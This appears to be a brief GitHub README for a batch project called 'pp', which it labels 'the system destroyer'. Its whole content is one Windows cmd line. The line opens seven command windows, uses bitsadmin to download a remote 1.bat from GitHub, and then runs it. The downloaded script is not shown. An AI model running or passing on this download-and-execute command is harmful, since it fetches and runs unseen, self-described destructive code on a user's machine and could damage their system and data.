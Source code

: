 # pp

the system destroyer


custom batch file for fun

windows 10 cmd:

cd c:\windows && mkdir c:\v && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && start cmd.exe && bitsadmin /transfer wcb /priority high https://github.com/SyscoreV1/pp/raw/main/1.bat C:\v\1.bat && cd C:\v && start 1.bat && exit
